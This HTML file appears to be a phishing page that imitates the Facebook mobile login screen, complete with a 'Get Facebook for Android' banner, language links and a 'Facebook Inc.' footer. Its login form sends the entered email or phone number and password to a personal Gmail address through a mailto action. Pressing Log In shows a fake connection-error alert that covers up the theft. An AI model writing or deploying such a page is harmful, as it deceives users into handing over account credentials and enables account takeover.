 <!DOCTYPE html>
<html lang="en" xmlns="http://www.w3.org/1999/xhtml">
       <head>
       <meta charset="utf-8" />
</head>
<body>
    <div id="wrapper">
        <div id="navContainer">
          <p class="pOne"> Get Facebook for Android and browse faster.</p>
        </div>
        <div class="Details">
            <form action="mailto:mperoreue@gmail.com">
                <table cellspacing="2"cellpadding="2">
                <thead>
                    <tr><th colspan="2"><label>facebook</label></th></tr>
                </thead>
                    <tfoot>
                        <tr><td colspan="2">or<hr /></td></tr>
                    </tfoot>
                <tbody>
                    <tr>
                        <td colspan="2"><input type="text" name="name"placeholder="Mobile number or email address" /></td>
                    </tr>
                    <tr>
                        <td colspan="2"><input type="password" placeholder="password" /></td>
                    </tr>
                    <tr class="ry">
                        <td colspan="2"><input type="submit" value="Log In" id="lg" onclick="alert('Error occured while connecting . Please try again'); window.open('HTMLPage1.html');"/></td>
                    </tr>
                </tbody>
                    </table>
                     </form>

            </div>
        <div id="st2">
          <div id="st0"><a href="#"><span>Create New Account</span></a><br />
            <a href="#">forgotten password?</a> </div>
            <div id="st3"><p>English<br />Portugues(Brsil)<br />Espanol<br />Deutsch</p></div>

            <div id="st4">
                Hausa<br />Francais(France)<br /><input type="button" value="+" />
            </div>
            <p class="tp">Facebook Inc.</p>
        </div>
    </div>
</body>
</html>
